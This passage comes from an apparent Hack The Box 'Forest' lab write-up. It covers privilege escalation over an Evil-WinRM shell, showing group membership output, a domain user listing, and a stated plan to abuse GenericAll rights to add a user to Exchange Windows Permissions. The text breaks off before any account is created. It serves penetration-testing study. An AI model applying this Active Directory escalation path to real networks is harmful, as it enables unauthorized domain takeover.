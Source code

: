 <center>
<img src="https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Forest/pics/8.png" style="width:40%">
</center>

## Privilege Escalation

We are already a member of the required groups,

```c
*Evil-WinRM* PS C:\Users\svc-alfresco> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Privileged IT Accounts                 Group            S-1-5-21-3072663084-364016917-1341370565-1149 Mandatory group, Enabled by default, Enabled group
HTB\Service Accounts                       Group            S-1-5-21-3072663084-364016917-1341370565-1148 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
*Evil-WinRM* PS C:\Users\svc-alfresco> 
```

Since we are already a member of the required groups,  we need to just make use of the ```GenericAll``` to add a new user to ```Exchange Windows Permission```,

Creating a new user in the domain

```c
*Evil-WinRM* PS C:\Users\svc-alfresco> net users /domain

User accounts for \\

-------------------------------------------------------------------------------
$331000-VK4ADACQNUCA     Administrator            andy
DefaultAccount           Guest                    HealthMailbox0659cc1
HealthMailbox670628e     HealthMailbox6ded678     HealthMailbox7108a4e
HealthMailbox83d6781     HealthMailbox968e74d     HealthMailboxb01ac64
HealthMailboxc0a90c9     HealthMailboxc3d7722     HealthMailboxfc9daad
HealthMailboxfd87238     krbtgt                   lucinda
mark                     santi                    sebastien
SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb     SM_2c8eef0a09b545acb
SM_681f53d4942840e18     SM_75a538d3025e4db9a     SM_7c96b981967141ebb
SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b     SM_ca8c2ed5bdab4dc9b
```